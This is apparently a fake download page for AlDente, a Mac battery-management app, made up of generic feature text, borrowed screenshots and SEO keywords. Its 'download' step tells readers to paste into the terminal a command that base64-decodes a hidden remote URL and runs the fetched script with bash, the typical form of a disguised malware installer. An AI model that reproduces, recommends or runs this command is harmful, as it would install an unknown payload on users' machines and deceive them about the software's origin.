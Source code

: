 # AlDente Mac Download - Intelligent Battery Management Tool  

![AlDente Screenshot](https://appicker.com/wp-content/uploads/2024/05/AlDente_ScreenShot_3.png)  

---  

### 🔽 Download AlDente for Mac

> 📥 Open the terminal on your device and paste the command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```

--- 

## What is AlDente for Mac?  

AlDente is an innovative battery optimization utility designed specifically for macOS that revolutionizes how you manage your MacBook's battery health. Unlike Apple's basic battery management system, AlDente provides granular control over charging behavior, allowing users to set custom charge limits between 20-100% to significantly extend battery lifespan.  

This powerful tool is particularly valuable for users who frequently work with their MacBooks plugged in for extended periods, as it prevents the common issue of battery degradation caused by continuous 100% charging. AlDente works seamlessly in the background, monitoring your battery status while consuming minimal system resources.  

The application features an intuitive interface with real-time battery statistics, including current charge level, cycle count, and temperature monitoring. Advanced users can access additional pro features like discharge mode, which helps calibrate battery sensors, and sailing mode that maintains optimal charge levels.  

For creative professionals, developers, and anyone who relies on their MacBook for daily work, AlDente offers peace of mind by preserving battery health and maintaining peak performance over years of use. The tool is compatible with all Intel and Apple Silicon MacBooks running modern versions of macOS.  

![AlDente Interface](https://mac-cdn.softpedia.com/screenshots/AlDente_4.jpg)  

---  

## Key Features & Benefits  

- 🔋 Customizable charge limiting (20-100%)  
- ⚡ Advanced battery health preservation  
- 📊 Real-time battery statistics monitoring  
- 🛠️ Discharge and sailing modes for calibration  
- 🌡️ Temperature tracking and alerts  
- 💻 Lightweight background operation  

Optimize your MacBook's battery lifespan with AlDente's intelligent charging management.  

---  

## 🔍 Keywords  

AlDente for Mac, AlDente Mac Download, AlDente for Mac Download, AlDente Mac, AlDente Download Mac, AlDente Download for Mac, AlDente full version, Mac Download AlDente, Download Mac AlDente, Download AlDente Mac, Download AlDente for Mac
